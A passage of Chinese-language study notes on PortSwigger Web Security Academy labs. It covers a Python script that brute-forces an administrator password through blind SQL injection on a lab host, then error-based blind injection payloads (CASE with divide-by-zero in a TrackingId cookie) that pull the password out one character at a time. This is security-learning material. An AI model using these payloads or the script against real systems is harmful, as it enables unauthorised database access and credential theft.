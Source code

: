               response = requests.get(
                  'https://0ad80007034af3b4815416d000260088.web-security-academy.net/filter',
                  params=params,
                  cookies=cookies,
                  headers=headers,
                  verify=False,
              )

              print(f"\rIndex = {i}, Payload = {j}   ", end='')

              if "Welcome back!" in response.text:
                  ans += j
                  print()
                  print(ans)
                  break

      print(f"Password: {ans}")
      ```
  7. 取得密碼後登入通關

#### 基於錯誤的 SQL 注入

基於錯誤的 SQL 注入是指您能夠使用錯誤訊息從資料庫中提取或推斷敏感資料的情況，即使在盲注語境中也是如此。可能性取決於資料庫的配置和您能夠觸發的錯誤類型：

* 您可能能夠根據布林表達式的結果誘使應用程式返回特定的錯誤回應。您可以用與我們在前一節中看到的條件回應相同的方式來利用這一點。更多資訊請參閱透過觸發條件錯誤來利用盲注 SQL 注入。
* 您可能能夠觸發輸出查詢語句返回資料的錯誤訊息。這有效地將原本盲注的 SQL 注入漏洞轉變為可見的。更多資訊請參閱透過詳細的 SQL 錯誤訊息提取敏感資料。

##### 透過觸發條件錯誤來利用盲注 SQL 注入

某些應用程式執行 SQL 查詢語句，但無論查詢語句是否返回任何資料，其行為都不會改變。前一節中的技術將無效，因為注入不同的布林條件對應用程式的回應沒有影響。

通常可以根據是否發生 SQL 錯誤來誘使應用程式返回不同的回應。您可以修改查詢語句，使其僅在條件為真時才導致資料庫錯誤。很多時候，資料庫拋出的未處理錯誤會導致應用程式回應中的某些差異，例如錯誤訊息。這使您能夠推斷注入條件的真假。

要了解其工作原理，假設依次發送了包含以下 `TrackingId` cookie 值的兩個請求：

```SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

這些輸入使用 `CASE` 關鍵字來測試條件，並根據表達式是否為真返回不同的表達式：

* 對於第一個輸入，`CASE` 表達式評估為 `'a'`，這不會導致任何錯誤。
* 對於第二個輸入，它評估為 `1/0`，這會導致除零錯誤。

如果錯誤導致應用程式的 HTTP 回應出現差異，您可以使用這個來確定注入的條件是否為真。

使用此技術，您可以透過一次測試一個字元來擷取資料：
`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

有不同的方式來觸發條件錯誤，不同的技術在不同的資料庫類型上效果最佳。更多詳細資訊請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。。

## 二階 SQL 注入

一階 SQL 注入發生在應用程式處理來自 HTTP 請求的使用者輸入，並以不安全的方式將輸入併入 SQL 查詢語句中。
